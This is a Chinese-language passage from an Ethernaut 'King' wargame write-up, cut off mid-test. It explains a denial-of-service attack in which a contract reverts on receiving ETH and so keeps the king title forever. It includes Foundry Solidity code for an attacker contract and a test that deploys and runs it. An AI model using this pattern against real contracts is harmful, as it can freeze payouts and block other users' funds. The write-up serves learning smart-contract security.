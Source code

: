 ### 攻击向量

我们可以利用 `transfer()` 函数失败时会回滚的特性：
1. 部署一个合约成为 king
2. 合约不定义 `receive()` 或 `fallback()` 函数
3. 或者在 `receive()` 函数中直接 revert
4. 这样合约将无法接收 ETH，阻止任何人成为新的 king

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Ethernaut.sol";
import "../src/levels/KingFactory.sol";

contract KingAttacker {
    King instance;

    constructor(address payable _king) payable {
        instance = King(_king);
    }

    function attack() public payable {
        (bool success, ) = address(instance).call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // 关键：拒绝接收 ETH
    receive() external payable {
        revert("I will always be the king!");
    }
}

contract KingTest is Test {
    Ethernaut ethernaut;
    KingFactory kingFactory;
    
    function setUp() public {
        ethernaut = new Ethernaut();
        kingFactory = new KingFactory();
        ethernaut.registerLevel(kingFactory);
    }
    
    function testKingExploit() public {
        // 创建关卡实例
        address payable levelInstance = payable(ethernaut.createLevelInstance{value: 1 ether}(kingFactory));
        King instance = King(levelInstance);
        
        // 检查初始状态
        uint256 initialPrize = instance.prize();
        address initialKing = instance._king();
        
        // 部署攻击合约
        KingAttacker attacker = new KingAttacker{value: initialPrize + 1}(levelInstance);
        
        // 执行攻击：成为 king
        attacker.attack{value: initialPrize + 1}();
```